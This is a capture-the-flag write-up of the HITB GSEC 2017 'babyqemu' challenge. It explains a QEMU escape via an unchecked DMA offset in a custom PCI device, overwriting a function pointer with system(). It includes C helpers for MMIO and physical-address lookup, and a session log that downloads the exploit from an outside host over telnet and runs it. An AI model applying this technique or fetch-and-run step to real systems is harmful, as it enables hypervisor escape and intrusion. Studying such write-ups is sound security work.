 ```yaml
---
layout: post
title: "HITB GSEC 2017: babyqemu"
categories: writeups hitb2017
tags: exploitation
author: saelo
---
```


This is a short writeup explaining how I solved the "babyqemu" challenge of
HITB GSEC 2017. I greatly enjoyed solving the challenge since I had never
before written any kind of hypervisor escape.

## Overview

For this challenge, players were given [a tar.gz](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/babyqemu.tar.gz) file containing the
following files:


    -rwxr-xr-x    1 sam  staff   281B Jul 11 15:38 launch.sh
    drwxr-xr-x   59 sam  staff   2.0K Jul 11 13:36 pc-bios
    -rwxr-xr-x    1 sam  staff    38M Jul 11 13:32 qemu-system-x86_64
    -rw-r--r--    1 sam  staff   3.7M Jul 11 13:32 rootfs.cpio
    -rwxr-xr-x    1 sam  staff   7.0M Jul 11 13:35 vmlinuz-4.8.0-52-generic

The launch.sh script contains the following:

{% highlight bash %}
#!/bin/sh
./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-enable-kvm \
-monitor /dev/null \
-m 64M --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
{% endhighlight %}

Note the last line, in which a custom `hitb` device is made available for the
guest operating system. It seems our goal is to exploit the emulation code for
this device and gain code execution inside the qemu process (running the
`qemu-system-x86_64` executable). The fact that we can simply login as root on
the provided machine (and remotely) without a password supports this theory.

## Reversing the device emulator

Fortunately, the provided `qemu-system-x86_64` was not stripped (and even
contained debug symbols, giving us structure layouts) so we have all the
function names.  Loading the `qemu-system-x86_64` into IDA, we can filter for
all functions containing the word `hitb` and are left with a fairly short list
of relevant functions:

    Function name                        Segment Start            Length
    -------------                        ------- -----            ------
    do_qemu_init_pci_hitb_register_types .text   0000555555754BF0 00000011
    hitb_enc                             .text   00005555557D7DD0 0000001E
    pci_hitb_register_types              .text   00005555557D7DF0 0000000C
    hitb_class_init                      .text   00005555557D7E00 0000006F
    pci_hitb_uninit                      .text   00005555557D7E70 00000060
    hitb_instance_init                   .text   00005555557D7ED0 00000069
    hitb_obj_uint64                      .text   00005555557D7F40 00000011
    hitb_raise_irq                       .text   00005555557D7F60 0000002B
    hitb_fact_thread                     .text   00005555557D7F90 000000F9
    hitb_dma_timer                       .text   00005555557D8090 0000010F
    hitb_mmio_write                      .text   00005555557D81A0 000002A0
    hitb_mmio_read                       .text   00005555557D8440 00000148
    pci_hitb_realize                     .text   00005555557D8590 000000D0

The registered PCI device uses the following struct to store any state:

    00000000 HitbState       struc ; (sizeof=0x1BD0, align=0x10, copyof_1490)
    00000000 pdev            PCIDevice_0 ?
    000009F0 mmio            MemoryRegion_0 ?
    00000AF0 thread          QemuThread_0 ?
    00000AF8 thr_mutex       QemuMutex_0 ?
    00000B20 thr_cond        QemuCond_0 ?
    00000B50 stopping        db ?
    00000B58 fact            dd ?
    00000B5C status          dd ?
    00000B60 irq_status      dd ?
    00000B68 dma             dma_state ?
    00000B88 dma_timer       QEMUTimer_0 ?
    00000BB8 dma_buf         db 4096 dup(?)
    00001BB8 enc             dq ?                    ; offset
    00001BC0 dma_mask        dq ?
    00001BD0 HitbState       ends

    00000000 dma_state       struc ; (sizeof=0x20, align=0x8, copyof_1488)
    00000000 src             dq ?
    00000008 dst             dq ?
    00000010 cnt             dq ?
    00000018 cmd             dq ?
    00000020 dma_state       ends

Reversing the code a bit, we see that:

* The code registers a custom PCI device names 'hitb' and allocates an
  [I/O memory](https://en.wikipedia.org/wiki/Memory-mapped_I/O) region for it. With
  memory mapped I/O, the guest can read and write device "registers" simply by
  reading from and writing to specific *physical* addresses.

* The registered device has handler functions (`hitb_mmio_write` and
  `hitb_mmio_read`) for read and write accesses from the guest to the allocated
  memory region. These handlers will be called everytime the guest operating
  systems accesses a physical address inside the range allocated for the PCI
  device.

* The device supports a custom DMA mechanism, allowing the guest operating
  system to read and write data into a fixed-sized buffer (`dma_buf`) inside of
  the device structure

The DMA buffer can be written to in the following way:

1. The guest writes the physical address of the source buffer to the `dma.src`
   register (by writing to offset 128 in the iomem region)
2. The guest writes the host buffer offset into the `dma.dst` register (offset 136)
3. The guest writes the number of bytes to copy into the `dma.cnt` register (offset 144)
4. The guest writes the constant 1 into the `dma.cmd` register (offset 152)

This will schedule the execution of a separate function which essentially
performs a memcpy from the given guest buffer into the host buffer.

Reading back the content of the DMA buffer works essentially the same, except
that src and dst need to be exchanged.

Looking at the code, we can see that no validation is performed on the given
offset into the DMA buffer. As such we can read to and write from arbitrary
memory adjacent to the hitb device instance (since the buffer is embedded into
the structure, and not just a pointer to it).

Conveniently, a function pointer (`enc`) is located right after the storage
buffer and will be called if the guest requests "encrypted" DMA transfers
(which simply XORs all data with 0x66). The first argument for that function
will be a pointer into the `dma_buf`, thus containing attacker controlled data.
Even more conveniently, the `system` function is linked into the qemu binary,
so we don't even need to leak the address of libc.

All we have left to do is implement I/O memory accesses from the guest.

## Memory mapped I/O from Linux usermode

Access to (almost) the whole physical memory is possible in Linux by open()ing
and mmap()ing `/dev/mem`. However, in our case there is a simpler way: the
device directory under /sys contains a pseudofile named "resource0", which
gives the user a "view" onto the physical memory used by the device.  In our
case, the full path for this device file is
`/sys/devices/pci0000:00/0000:00:04.0/resource0`.

With that, reading e.g. the register at offset 128 (the `dma.src` register) can
be performed with the following C code:

{% highlight c %}
void* iomem;

void iowrite(uint64_t offset, uint64_t value)
{
    *((uint64_t*)(iomem + offset)) = value;
}

int main()
{
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);

    iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);

    iowrite(128, 0x1337);

    return 0;
}
{% endhighlight %}

To use the DMA mechanism, we also need the physical address of a buffer that we
can write to and read from. Fortunately, Linux provides the `/proc/$pid/pagemap`
[pseudofile](https://www.kernel.org/doc/Documentation/vm/pagemap.txt), which
gives us excactly this information. Using this pseudofile, we can obtain the
physical address for a virtual address in our process using the following C
code:

{% highlight c %}
uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;

    // Assert page alignment
    assert((virt & 0xfff) == 0);

    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        die("open");

    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        die("read");

    // Assert page present
    assert(phys & (1ULL << 63));

    phys = (phys & ((1ULL << 54) - 1)) * 0x1000;
    return phys;
}
{% endhighlight %}

With that we have everything to reach the vulnerable code inside the custom
qemu binary.

## Putting everything together

The exploit now does the following:

1. Use the out-of-bounds DMA access to read the value of the `enc` function
   pointer
2. Add the offset to the PLT stub for `system` to that pointer and write it
   back using the DMA bug again
3. Write the string `cat flag` into the DMA page. This will be the first
   argument to the `enc` function pointer
4. Perform an "encrypted" DMA transfer to call the function pointer

Here is the exploit in action:


    __        __   _                            _          _   _ ___ _____ ____
    \ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___   | | | |_ _|_   _| __ )
     \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \  | |_| || |  | | |  _ \
      \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) | |  _  || |  | | | |_) |
       \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  |_| |_|___| |_| |____/

    Welcome to HITB
    HITB login: root
    # telnet 128.199.51.139 5555 > pwn.b64
    # base64 -d pwn.b64 > pwn
    # chmod +x pwn
    # ./pwn
    iomem @ 0x7fec5fa96000
    DMA buffer (virt) @ 0x7fec5fa95000
    DMA buffer (phys) @ 0x20e7000
    binary @ 0x561d2185a000
    HITB{907825fdd6e748fb84850c11ce0bef8d}

The full exploit can be found [here](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/pwn.c).
